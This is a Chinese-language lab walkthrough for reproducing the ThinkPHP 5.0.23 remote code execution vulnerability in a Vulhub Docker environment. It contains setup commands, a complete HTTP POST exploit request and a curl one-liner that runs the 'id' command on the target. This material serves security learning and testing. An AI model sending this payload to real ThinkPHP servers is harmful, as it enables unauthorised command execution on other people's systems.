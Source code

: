 ```
[root@centos ~]# cd /root/vulhub/thinkphp/5.0.23-rce/
```

启动环境

```
[root@centos 5.0.23-rce]# docker-compose up -d
```

查看靶场的访问地址

```
[root@centos 5.0.23-rce]# cat docker-compose.yml
version: '3'
services:
 web:
   image: vulhub/thinkphp:5.0.23
   ports:
    - "8080:80"		“8080是虚拟机端口，80是 Docker 端口”
```

查看启动的环境

```
[root@centos 5.0.23-rce]# docker-compose ps
```

访问

> http://debian:8080

查看复现文档

```
[root@centos ~]# cat /root/vulhub/thinkphp/5.0.23-rce/README.zh-cn.md
```

```
POST /index.php?s=captcha HTTP/1.1
Host: centos.local
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

> 在 Windows 用 Typora 查看效果更佳

**漏洞验证**

**Curl**

使用 curl 命令访问漏洞链接，并执行命令

```
┌──(root㉿kali)-[~]
└─# curl http://debian:8080/index.php?s=captcha -d "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id" |head -n 1
```
